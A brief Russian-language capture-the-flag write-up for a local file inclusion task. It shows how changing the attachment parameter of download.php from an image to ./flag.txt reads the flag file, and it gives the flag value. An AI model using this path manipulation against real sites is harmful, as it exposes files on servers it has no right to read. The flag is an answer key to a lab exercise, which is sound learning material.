 # Идём к LFI
В задании что-то сказано про LFI, изучаем что-же это такое, смотрим откуда подгрузилась картинка на сайт  
`download.php?attachment=./wow.jpg`  
Попробуем аналагично получить flag.txt  
`download.php?attachment=./flag.txt`  
Наш флаг arctf{w0w_lfi_stories}   
 
